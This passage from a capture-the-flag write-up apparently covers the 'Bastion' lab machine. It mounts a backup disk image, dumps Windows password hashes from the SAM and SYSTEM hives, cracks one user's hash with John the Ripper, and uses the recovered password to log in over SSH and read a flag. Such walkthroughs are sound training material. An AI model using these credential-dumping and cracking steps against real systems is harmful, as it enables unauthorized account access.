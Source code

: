 Then I mount the image to another directory, specifying the proper offset:
```
# mount -o ro,noload,offset=65536 vhdi1 /mnt/bastion_backup
root@ragingunicorn:/mnt/vhd# ls -l /mnt/bastion_backup/
total 2096729
drwxrwxrwx 1 root root          0 Feb 22 07:39 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 10  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 10  2009  config.sys
lrwxrwxrwx 2 root root         25 Jul 14  2009 'Documents and Settings' -> /mnt/bastion_backup/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22 07:38  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 13  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 11  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22 07:39  Recovery
drwxrwxrwx 1 root root       4096 Feb 22 07:43 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22 07:39  Users
drwxrwxrwx 1 root root      16384 Feb 22 07:40  Windows
```

I now have access to the system and SAM hive and I dump the hashes from the database:
```
/mnt/bastion_backup/Windows/System32/config# pwdump SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

With John The Ripper I can crack the hash for user `L4mpje`: `bureaulampje`
```
# john --format=NT -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```

With that account I can SSH in and get the user flag:
```
# ssh l4mpje@10.10.10.134
l4mpje@10.10.10.134's password:

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>cd desktop

l4mpje@BASTION C:\Users\L4mpje\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\L4mpje\Desktop

22-02-2019  16:27    <DIR>          .
22-02-2019  16:27    <DIR>          ..
23-02-2019  10:07                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  11.389.775.872 bytes free

l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
9bfe57...
```
